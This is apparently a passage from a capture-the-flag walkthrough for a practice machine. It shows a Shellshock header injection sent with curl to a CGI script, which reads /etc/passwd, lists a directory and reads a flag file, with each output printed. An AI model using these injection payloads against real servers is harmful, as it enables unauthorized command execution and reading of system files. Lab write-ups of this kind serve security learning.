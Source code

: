 And run a quick test to see if I can view **/etc/passwd**:

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

And it works, let's see what else we can do.

**NOTE:** Specify the full path to the command or it will not work. Example **/bin/cat** vs just **cat**.

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/ls -al"`

```
total 20
drwxr-xr-x  2 root     root     4096 Aug 20  2020 .
drwxr-xr-x 58 root     root     4096 Jul  3  2020 ..
-rw-r--r--  1 www-data www-data   33 Apr 14 06:58 local.txt
-rwxr-xr-x  1 root     root       73 May 13  2020 test
-rwxr-xr-x  1 root     root       73 May 11  2020 test.sh
```

`curl http://192.168.81.87/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat local.txt"`

```
<REDACTED>
```

That's the first flag for the box.
